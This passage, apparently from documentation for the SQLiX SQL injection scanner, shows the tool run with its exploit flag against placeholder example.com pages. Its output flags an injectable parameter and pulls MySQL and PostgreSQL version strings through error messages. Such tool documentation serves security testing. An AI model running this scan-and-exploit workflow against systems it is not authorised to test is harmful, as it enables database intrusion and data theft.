 `                  [FOUND] MS-SQL error message`
` `
`RESULTS:`
`The variable [DocID] from [ `<http://www.target.example.com/DocumentDescription-HR.asp?DocID=2>` ] ...`
`   ... is vulnerable to SQL Injection [TAG implicite without quotes - MSSQL].`

  - **MySQL, PostgreSQL function Injection**

`$ perl SQLiX.pl -file crawling -all -v=2 -exploit`

`======================================================`
`                   -- SQLiX --`
` © Copyright 2006 Cedric COCHIN, All Rights Reserved.`
`======================================================`

`Analysing URI obtained by flat file [crawling]`
` `<http://www.target.example.com/MySQL-DocumentDescriptionMagicQuote.asp?DocID=2>
`      [+] working on DocID`
`            [+] Method: MS-SQL error message`
`            [+] Method: SQL error message`
`                  [FOUND] Match found INPUT:[user] - "Microsoft OLE DB Provider for ODBC Drivers"`
`                  [INFO] Error without quote`
`                  [INFO] Database identified: MySQL Server`
`                  [INFO] Current function: version()`
`                  [INFO] length: 19`
`                      4.1.20-community-nt`
`                  [FOUND] SQL error message`
` `<http://www.target.example.com/PGSQL-DocumentDescription.asp?DocID=2>
`      [+] working on DocID`
`            [+] Method: MS-SQL error message`
`            [+] Method: SQL error message`
`                  [FOUND] Match found INPUT:['] - "Microsoft OLE DB Provider for ODBC Drivers"`
`                  [INFO] Error without quote`
`                  [INFO] Database identified: PostgreSQL Server`
`                  [INFO] Current function: version()`
`                  [INFO] length: 88`
`                      PostgreSQL 8.0.7 on i686-pc-mingw32, compiled by GCC gcc.exe (GCC) 3.4.2`
`                  [FOUND] SQL error message`

`RESULTS:`
`The variable [DocID] from `
`  [ `<http://www.target.example.com/MySQL-DocumentDescriptionMagicQuote.asp?DocID=2>` ] ...`
`   ... is vulnerable to SQL Injection [Error message (user) - MySQL].`
`The variable [DocID] from`
`  [ `<http://www.target.example.com/PGSQL-DocumentDescription.asp?DocID=2>` ] ...`
`   ... is vulnerable to SQL Injection [Error message (') - PostgreSQL].`

# Acknowledgements

## Volunteers
